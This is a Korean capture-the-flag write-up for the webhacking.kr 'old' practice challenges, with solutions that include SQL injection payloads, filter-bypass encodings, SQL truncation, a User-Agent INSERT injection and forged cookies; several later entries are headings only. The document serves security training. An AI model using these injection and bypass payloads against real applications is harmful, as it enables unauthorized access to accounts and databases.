# webhacking.kr (old) writeup 
<br>

## old-01

__쿠키 인젝션__

```php
<?php  
    if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;  
    if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;  
    if($_COOKIE['user_lv']>5) solve(1);  
    echo "<br>level : {$_COOKIE['user_lv']}";  
?>  
```

쿠키 user_lv의 값을 조건에 맞게 바꿔야 한다.
쿠키는 5 초과 6 미만인 값이어야 하므로, 그 사이의 값(ex 5.5)을 넣으면 성공.  

  
<br>
  
## old-02*

__블라인드 SQL 인젝션__  

`<!-- if you access admin.php i will kick your ass -->` 따라 들어가보자.  

  

input 필드가 나온다. admin에 접근하려면 password를 알아내야 한다.  
페이지의 소스코드 주석의 시간과 time 쿠키를 단서로 하여  쿠키의 값을 몇 번 고쳐보니,
쿠키에 넣은 논리값이 거짓일 때는 `2070-01-01 09:00:00`로, 참일 때는  `2070-01-01 09:00:01`로 바뀐다.

<br>

## old-03

__SQL 인젝션__

  

..? 노노그램? 답을 입력하니 다음과 같은 input 필드가 나온다. 



소스코드를 확인해보니 answer에 들어가는 hidden 필드가 있다.  
`<form method=post action=index.php><input type=hidden name=answer value=1010100000011100101011111>`   
여기에 '를 넣어보니 쿼리 에러가 발생해 SQL 인젝션으로 값이 항상 참이 되게 하면 성공.


<br>

## old-04

__레인보우테이블__


해시 값을 디코딩해서 패스워드 값을 찾는 것 같다.

```php+HTML
<?php
	sleep(1); // anti brute force
	if((isset($_SESSION['chall4'])) && ($_POST['key'] == $_SESSION['chall4'])) solve(4);
	$hash = rand(10000000,99999999)."salt_for_you";
	$_SESSION['chall4'] = $hash;
	for($i=0;$i<500;$i++) $hash = sha1($hash);
?>
...
<tr><td colspan=3 style=background:silver;color:green;><b><?=$hash?></b></td></tr>
```

세션값은 10000000~99999999사이의 임의의 값 + salt_for_you, 출력된 값은  이를 500번 sha1 인코딩 한 값이다.  
그러나 sha1은 단방향 암호화 알고리즘으로 500번이나 디코딩할 수 없다.  
브루트 포스 공격도 불가능하므로 파이썬으로 레인보우 테이블을 만들어주면 될듯하다.

__exploit__: [old-04.py](./code/old-04.py)


(ㅎㄷㄷ)


<br>

## old-05

__SQL 절단 공격__

login으로 들어가면 다음과 같이 mem 디렉터리가 노출되며 디렉터리 인덱싱이 가능하다.


/mem으로 접속하면 접속이 거부되었던 join.php에 접근할 수 있게 된다.


join.php의 소스코드를 보면 암호화가 되어 있다.
```javascript
<script>
l='a';ll='b';lll='c';llll='d';lllll='e';llllll='f';lllllll='g';llllllll='h';lllllllll='i';llllllllll='j';lllllllllll='k';llllllllllll='l';lllllllllllll='m';llllllllllllll='n';lllllllllllllll='o';llllllllllllllll='p';lllllllllllllllll='q';llllllllllllllllll='r';lllllllllllllllllll='s';llllllllllllllllllll='t';lllllllllllllllllllll='u';llllllllllllllllllllll='v';lllllllllllllllllllllll='w';llllllllllllllllllllllll='x';lllllllllllllllllllllllll='y';llllllllllllllllllllllllll='z';I='1';II='2';III='3';IIII='4';IIIII='5';IIIIII='6';IIIIIII='7';IIIIIIII='8';IIIIIIIII='9';IIIIIIIIII='0';li='.';ii='<';iii='>';lIllIllIllIllIllIllIllIllIllIl=lllllllllllllll+llllllllllll+llll+llllllllllllllllllllllllll+lllllllllllllll+lllllllllllll+ll+lllllllll+lllll;
lIIIIIIIIIIIIIIIIIIl=llll+lllllllllllllll+lll+lllllllllllllllllllll+lllllllllllll+lllll+llllllllllllll+llllllllllllllllllll+li+lll+lllllllllllllll+lllllllllllllll+lllllllllll+lllllllll+lllll;if(eval(lIIIIIIIIIIIIIIIIIIl).indexOf(lIllIllIllIllIllIllIllIllIllIl)==-1) {alert('bye');throw "stop";}if(eval(llll+lllllllllllllll+lll+lllllllllllllllllllll+lllllllllllll+lllll+llllllllllllll+llllllllllllllllllll+li+'U'+'R'+'L').indexOf(lllllllllllll+lllllllllllllll+llll+lllll+'='+I)==-1){alert('access_denied');throw "stop";}else{document.write('<font size=2 color=white>Join</font><p>');document.write('.<p>.<p>.<p>.<p>.<p>');document.write('<form method=post action='+llllllllll+lllllllllllllll+lllllllll+llllllllllllll+li+llllllllllllllll+llllllll+llllllllllllllll
+'>');document.write('<table border=1><tr><td><font color=gray>id</font></td><td><input type=text name='+lllllllll+llll+' maxlength=20></td></tr>');document.write('<tr><td><font color=gray>pass</font></td><td><input type=text name='+llllllllllllllll+lllllllllllllllllllllll+'></td></tr>');document.write('<tr align=center><td colspan=2><input type=submit></td></tr></form></table>');}
</script>
```

코드를 예쁘게 정리해 보자. https://beautifier.io/  
js beautifulier와 개발자 도구를 이용해서 해석해보면 다음과 같다.
```javascript
<script>
    if (document.cookie.indexOf(oldzombie) == -1) {
        alert('bye');
        throw "stop";
    }
    if (document.URL.indexOf(mode=1) == -1) {
        alert('access_denied');
        throw "stop";
    } else {
...
</script>
```
oldzombie 쿠키가 있어야 하며 url에 mode=1이 있어야 한다는 조건을 맞춰주니 회원가입하는 창이 나타났다.


admin으로 로그인해야 하는데 이는 이미 있는 id라고 나온다. max length를 20보다 크게 바꿔줘 아무 문자나 입력하면 이후 문자열을 자르고 admin만 받아들인다.


## old-06

___base64___

소스코드를 요약하면,20번 base64 인코딩하고 규칙대로 replace한 값인 user 쿠키와 password 쿠키의 값을 거꾸로 replace하고 20번 base64 디코딩한 값이 각각 admin, nimda와 같으면 풀린다.   
쿠키에 들어갈 값을 만들어보자.  

__exploit__: [old-06.py](./code/old-06.py)

변환한 값을 쿠키에 넣어주면 성공.  


<br>

## old-07

___SQL 인젝션___

```php
<?php
$go=$_GET['val'];
...
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
...
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
```

소스코드를 확인해보면 GET방식으로 받은 값을 정규표현식을 통해 필터링을 거쳐 5분의 1확률로 성공하는 SQL 쿼리문에 넣는 것 같다.  
마지막 부분을 보면 $data[0]을 2로 만들어야 문제가 해결되므로 UNION을 이용해 앞의 쿼리문을 거짓으로 만들고 뒤의 쿼리문을 참으로 만들어야 한다.  

따라서 `val=0)UNION SELECT 2` 와 같이 쓰고 싶었는데... 다음 정규표현식이 이를 필터링해 두가지 문제점이 있었다.  
`if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");`

1. 띄어쓰기가 안된다. 정규표현식이 공백(\s)을 막고 있으므로 괄호를 사용해야 할듯하다.
2. 2를 사용하지 못한다. 정규표현식이 사칙연산과 2를 막고 있으므로 2를 직접적으로 입력하지 못한다. 따라서 char(50)등의 방법으로 우회해봐야 할듯하다.  
   
결국 `val=0)UNION(SELECT(CHAR(50))` 과 같이 작성해서 5번정도 새로고침했더니 성공.  


<br>

## old-08

___SQL 인젝션___

```PHP
<?php
...
$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
```
소스코드를 확인하니 HTTP_USER_AGENT 값을 이용해서 SQL 쿼리문을 작성하였다.
id에 admin이 있으면 solve, 없으면 agent를 이용해 INSERT를 하므로, 프록시 도구(burp suite)를 이용해 User-Agent 값을 `dummyagent', 'dummyip', 'admin'), ('0` 으로 바꿔주었다.



이는 실제 INSERT문에서는 다음과 같이 동작할 것이다.

```SQL 
INSERT INTO chall8(agent,ip,id) VALUES('dummyagent', 'dummyip', 'admin'), ('0', '{$ip}', 'guest')
```

따라서 뒷부분의 원래 쿼리는 '0'으로 추가되지 않고, 앞부분의 (dummyagent, dummyip, admin)만 성공적으로 추가된다.



이다음 agent를 insert한 값인 dummyagent로 바꿔주면 성공.





<br>

# old-09*

___Blind SQL 인젝션___



1,2를 눌러보면 각각 Apple, Banana가 출력된다.



3을 눌러보면 다음과 같이 출력된다.

SQL 인젝션이 잘 막혀있어서 Blind SQL 인젝션을 시도해야 할 것 같다.

<br>

# old-10
___개발자도구___



(?!?!?!) ~~오바~~

O 를 클릭해보면 1px씩 앞으로 간다.
일일이 다 클릭해서 Goal 로 보낼 순 없으니 개발자도구를 이용해 위치를 바꿔보자.



다음과 같이 hackme 태그가 Goal을 넘어가게 되면 성공.



<br>

# old-11

___정규표현식___

```PHP
<?php
  $pat="/[1-3][a-f]{5}_.*$_SERVER[REMOTE_ADDR].*\tp\ta\ts\ts/";
  if(preg_match($pat,$_GET['val'])){
    solve(11);
  }
  else echo("<h2>Wrong</h2>");
  echo("<br><br>");
?>
```

GET 형식으로 전달받는 `$val`이 `$pat` 정규표현식과 일치하면 solve된다.

정규표현식의 동작을 확인하자. https://regex101.com/

|Code |Meaning|Example|
|------|:----:|----:|
|`[1-3]`|1-3의 숫자 1개|1|
|`[a-f]{5}`|a-f의 문자 5개|aaaaa|
|`.*x`|x 식이 0번이상 반복|x|
|`$_SERVER[REMOTE_ADDR]`|접속자의 ip주소|218.146.29.164|
|`\tp\ta\ts\ts`|\t는 tab이므로 URL 인코딩으로 치환|%09p%09a%09s%09s|

(해당 ip주소는 문제풀이시점의 ip)



`1aaaaa_(ip주소)  p a s s`와 같은 값이 전달되어야 하므로 tab을 소스코드 그대로 `\t` 로 처리해보았더니 그대로 Wrong이었다. 이유는 문제에서 우리는 GET 방식으로 값을 전달하므로 tab을 URL 인코딩하여 전달해야 하기 때문이다. 



따라서 `?val=1aaaa_(ip주소)%09p%09a%09s%09s` 와 같이 전달해주면 성공.



<br>

# old-12

___javascript___

```javascript
<html>
<head>
<title>Challenge 12</title>
<style type="text/css">
body { background: black; color:white; font-size:10pt; }
</style>
</head>
<body>
<script>
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ)
...
</body>
</script> 
```

구글링을 통해 ___aaencode___ 인코딩으로 난독화되어 있다는 것을 알아냈다.

여기서 디코딩 할 수 있다. https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html

디코딩한 소스코드는 다음과 같다.

```javascript
<script>
    var enco = '';
    var enco2 = 126;
    var enco3 = 33;
    var ck = document.URL.substr(document.URL.indexOf('='));
    for (i = 1; i < 122; i ++) {
        enco = enco + String.fromCharCode(i, 0);
    }
    function enco_(x) {
        return enco.charCodeAt(x);
    }
    if (ck == "=" +
    String.fromCharCode(enco_(240)) + 
    String.fromCharCode(enco_(220)) +
    String.fromCharCode(enco_(232)) + 
    String.fromCharCode(enco_(192)) + 
    String.fromCharCode(enco_(226)) + 
    String.fromCharCode(enco_(200)) + 
    String.fromCharCode(enco_(204)) + 
    String.fromCharCode(enco_(222 - 2)) + 
    String.fromCharCode(enco_(198)) + 
    "~~~~~~" + 
    String.fromCharCode(enco2) + 
    String.fromCharCode(enco3)) {
        location.href = "./" + ck.replace("=", "") + ".php";
    }
</script>
```

fromCharCode(x, y)함수는 객체의 ASCII코드를 인수로 하여 xy 문자열을 구성해주는 함수이다.

소스코드에서는 이를 이용하여 공백을 추가한다.

`$ck`에는 짝수 인덱스마다 NULL값이 추가되어 `{ 1,NULL,2,NULL,3,NULL, ...,122, NULL }` 와 같이 저장되므로 원하는 index에 저장된 ASCII코드는 `(index + 2) / 2` 이다.

따라서 위 조건문을 만족시키려면 URL에서 =뒤에 오는 값이 youaregod~~~~~~~!이 되어야 한다.



다음과 같이 URL에 파라미터를 붙여주면 성공.



<br>

# old-13

___블라인드 SQL 인젝션___


<br>

# old-14 

___javascript___



다음과 같은 필드만 덩그러니 있다.

```javascript
...
<form name=pw><input type=text name=input_pwd><input type=button value="check" onclick=ck()></form>
<script>
function ck(){
  var ul=document.URL;
  ul=ul.indexOf(".kr");
  ul=ul*30;
  if(ul==pw.input_pwd.value) { location.href="?"+ul*pw.input_pwd.value; }
  else { alert("Wrong"); }
}
</script>
...
```

소스코드를 확인해보니 필드에 입력되는 값이 ul과 똑같아야 Wrong이 나오지 않을 것 같다. 
URL에서 ".kr"의 인덱스는 18이고, 여기에 30을 곱하면 540이므로, 이를 필드에 넣어주면 성공.



<br>

# old-15

___javascript___

접속하면 다음과 같은 alert와 함께 webhacking.kr Index page로 이동한다.



사용하는 브라우저 설정에서 자바스크립트를 차단하면 정상적으로 접속할 수 있다.



```javascript
...
<script>
  alert("Access_Denied");
  location.href='/';
  document.write("<a href=?getFlag>[Get Flag]</a>");
</script>
...
```

소스코드를 확인해 보니 javascript가 /?getFlag로 접속하는 a태그를 만들어 주는 간단한 코드였다.

직접 해당 경로로 접속하면 성공.



<br>

# old 16

___javascript___



...별?

```javascript
<script> 
document.body.innerHTML+="<font color=yellow id=aa style=position:relative;left:0;top:0>*</font>";
function mv(cd){
  kk(star.style.left-50,star.style.top-50);
  if(cd==100) star.style.left=parseInt(star.style.left+0,10)+50+"px";
  if(cd==97) star.style.left=parseInt(star.style.left+0,10)-50+"px";
  if(cd==119) star.style.top=parseInt(star.style.top+0,10)-50+"px";
  if(cd==115) star.style.top=parseInt(star.style.top+0,10)+50+"px";
  if(cd==124) location.href=String.fromCharCode(cd)+".php"; // do it!
}
function kk(x,y){
  rndc=Math.floor(Math.random()*9000000);
  document.body.innerHTML+="<font color=#"+rndc+" id=aa style=position:relative;left:"+x+";top:"+y+" onmouseover=this.innerHTML=''>*</font>";
}
</script>
```

소스코드를 확인해 보면 마지막 if문에서 `location.href=String.fromCharCode(cd)+".php";` 

를 실행시키므로, | 를 입력해주면 다음과 같은 페이지로 이동하면서 성공.



<br>

# old-17
 
___javascript___



필드만 덩그러니 출력되어 있다.


```javascript
...
<script>
unlock=100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+1/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10+100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10-100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10/100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10*100*10*10+100/10-10+10+50-9*8+7-6+5-4*3-2*1*10+9999999;
function sub(){ if(login.pw.value==unlock){ location.href="?"+unlock/10; } else{ alert("Wrong"); } }
</script>
```

소스코드를 확인하니 unlock의 값을 필드에 넣어주면 solve 페이지로 이동할 것 같다.



저 식을 전부 계산할 수는 없으므로 개발자도구 - console 에서 unlock의 값을 알아내 이를 입력하면 성공.



<br>

# old-18

___SQL 인젝션___




소스코드를 확인해보자.


```PHP
...
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
...
```
정규표현식으로 특수문자 /, (, ), |, &와 select, from, 16진수를 차단하고 있으며, 대소문자를 구분하지 않도록 filtering 하고 있다.

or을 이용해 조건이 항상 참이 되게 하고, 쿼리결과의 반환 개수를 제한하는 키워드인 limit을 이용해 no=2인 쿼리만 (guest의 no는 1이다) 반환되게 해야 할 것 같다.
따라서 다음과 같이 쿼리문이 동작해야 한다.

```SQL 
SELECT id FROM chall18 WHERE id='guest' and no=1 or 1=1 LIMIT 1,1
```

띄어쓰기가 필드에서는 막히는것 같으므로 %0a로 우회하여 url에 넣을 최종 입력값은 다음과 같다.

`1%0aor%0a1=1%0aLIMIT%0a1,1`





<br>

# old-19

___base64, md5___

로그인 창에 admin을 넣으면 'you are not admin'이라며 거부당한다.
다른 문자 (ex 1)등은 잘 로그인이 된다.



1로 로그인하니 userid 쿠키가 추가된 것을 볼 수 있다.

`YzRjYTQyMzhhMGI5MjM4MjBkY2M1MDlhNmY3NTg0OWI%3D` 

쿠키값의 마지막에는 %3d가 있으므로 base64 인코딩이 되어 있음을 알 수 있다.

%3d를 =로 바꾸어 base64 디코딩을 해보자. https://www.base64decode.org/

`c4ca4238a0b923820dcc509a6f75849b`

이 값을 md5 디코딩하면 https://www.md5online.org/md5-decrypt.html 

1이 나온다! 또한 11을 필드에 넣고 쿠키를 base64 디코딩하면

`c4ca4238a0b923820dcc509a6f75849bc4ca4238a0b923820dcc509a6f75849b` 

이 나오는데, md5는 32자리 문자열을 반환하는 해시이므로, md5 암호화한 두 문자가 합쳐졌다는 추론을 할 수 있다. 

따라서 이를 역순으로 진행하여 

1. a, d, m, i, n 각각을 md5 인코딩 0cc175b9c0f1b6a831c399e269772661
2. 위 값을 합쳐 base64 인코딩 
3. =을 %3D로 변경 

`MGNjMTc1YjljMGYxYjZhODMxYzM5OWUyNjk3NzI2NjE4Mjc3ZTA5MTBkNzUwMTk1YjQ0ODc5NzYxNmUwOTFhZDZmOGY1NzcxNTA5MGRhMjYzMjQ1Mzk4OGQ5YTE1MDFiODY1YzBjMGI0YWIwZTA2M2U1Y2FhMzM4N2MxYTg3NDE3YjhiOTY1YWQ0YmNhMGU0MWFiNTFkZTdiMzEzNjNhMQ%3D%3D`

결과값을 값을 쿠키에 넣어주면 성공.

<다른 풀이>



admin 사이에 NULL문자를 넣어보면 필터링을 벗어나 로그인이 된다.



<br>

# old-20

___javascript___




2초의 time limit 안에 값을 복사할 수 없는 captcha 까지 필드를 직접 채우기는 불가능할 것 같다.

```javascript
lv5frm.id.value=1
lv5frm.cmt.value=1
lv5frm.captcha.value=lv5frm.captcha_.value
lv5frm.submit()
```
이를 통해 클라이언트 측에서 조작이 가능한 \<script\> 태그를 변조하자.



reset 후에 다음 코드를 개발자 도구의 console을 이용해 재빠르게 paste 해주면 성공.



<br>

# old-21

___블라인드 SQL 인젝션___


<br>

# old-22

___블라인드 SQL 인젝션___


<br>


# old-23

___URL 인코딩___

